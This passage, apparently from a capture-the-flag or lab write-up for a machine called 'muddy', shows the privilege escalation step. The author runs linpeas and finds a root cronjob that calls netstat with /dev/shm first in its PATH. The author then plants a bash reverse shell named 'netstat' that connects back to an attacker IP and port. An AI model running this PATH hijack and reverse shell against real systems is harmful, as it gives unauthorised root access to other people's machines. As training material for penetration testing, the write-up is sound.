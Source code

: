 **Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20231008-041e379c/linpeas.sh) on the attacking machine.

The script results shows the user has write accesst to `/dev/shm` folder and a cronjob is running.

**Cronjob**

```sh
www-data@muddy:/dev/shm$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql status >> /root/status
```

> **Note:** The PATH variable is specified with a new directory `PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`. 
>
> So when the cronjob runs, the system will check for the `netstat` binary's existence in the `dev/shm` folder first and then it will search in other folders.

Create a reverse shell and save it as `netstat`, apply executable permission `chmod +x netstat` and wait for reverse connection.

**netstat**

```sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.200/1234 0>&1;
```
